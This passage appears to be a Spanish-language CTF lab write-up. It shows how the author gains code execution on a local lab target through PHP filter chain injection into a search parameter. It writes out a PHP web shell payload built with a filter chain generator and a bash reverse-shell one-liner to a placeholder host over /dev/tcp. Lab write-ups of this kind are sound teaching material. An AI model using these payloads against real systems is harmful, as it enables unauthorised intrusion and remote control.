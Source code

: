 ```css
python3 php_filter_chain_generator.py --chain "<?php system('ls -la'); ?>"
```

nos copiamos el resultado y se lo damos al parametro search

![ls](./images/lfi.elf/imagenes/ls.png)

Para verlo asi entramos al codigo fuente y ya podremos ejecutar comandos, el problema es que no nos podemos enviar una reverse shell porque si el comando es muy largo el navegador no lo interpreta: ![long](./images/lfi.elf/imagenes/long.png)

## INTRUSION

Para poder ganar acceso, nos tenemos que "crear" un parametro cmd, para hacerlo tenemos que poner lo siguiente:

```css
python3 php_filter_chain_generator.py --chain '<?php echo shell_exec($_GET["cmd"]);?>'
```

y para usarlo seria así:

```css
http://172.17.0.2/?cmd=whoami&search={RESULTADO DEL COMANDO}
```

Una vez hecho eso podremos ejecutar comandos con la longitud que queramos y seria mas fácil enviar la reverse shell. Para enviarla sin errores seria asi:

```css
bash -c 'bash -i >%26 /dev/tcp/$IP/$PORT 0>%261'
```

Y listo, _estamos dentro_
